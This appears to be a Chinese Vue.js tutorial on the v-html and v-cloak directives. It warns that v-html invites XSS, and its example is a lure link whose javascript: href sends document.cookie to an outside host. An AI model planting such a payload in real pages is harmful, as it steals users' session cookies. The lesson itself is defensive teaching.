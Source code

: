 **v-html 指令：**(使用的很少)

1.作用：向指定节点中渲染包含 html 结构的内容。

2.与插值语法的区别：

- v-html 会替换掉节点中所有的内容，{{xx}}则不会。
- v-html 可以识别 html 结构。

  3.严重注意：v-html 有安全性问题！！！！

- 在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。
- 一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上！

```js
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

**v-cloak 指令（没有值）：**

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
- 使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
  [v-cloak] {
    display: none;
  }
</style>
<!-- 准备好一个容器-->
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
<script
  type="text/javascript"
  src="http://localhost:8080/resource/5s/vue.js"
></script>

<script type="text/javascript">
  console.log(1);
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

  new Vue({
    el: "#root",
    data: {
      name: "尚硅谷",
    },
  });
</script>
```